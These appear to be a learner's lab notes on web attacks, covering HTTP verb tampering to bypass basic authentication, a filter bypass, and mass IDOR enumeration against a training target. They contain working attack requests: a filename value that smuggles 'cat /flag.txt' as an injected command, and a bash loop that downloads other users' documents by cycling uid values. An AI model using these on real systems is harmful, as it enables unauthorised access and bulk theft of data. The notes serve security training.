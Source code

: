 # Bypassing Basic Authentication


```bash
DELETE /admin/reset.php? HTTP/1.1
Host: 94.237.59.174:37363
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.174:37363/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


Steps:
1. change GET to POST and next to HEAD,DELETE,Patch,Options

```


# Bypassing Security Filters

```bash
curl -i -X HTTP_Verb_Tampering http://SERVER_IP:PORT/
POST /index.php HTTP/1.1
Host: 94.237.59.174:37363
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

filename=file1;%20cat%20/flag.txt;

Steps:
1. change GET to POST

```

# Mass IDOR Enumeration

## GET 

```bash

#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

```
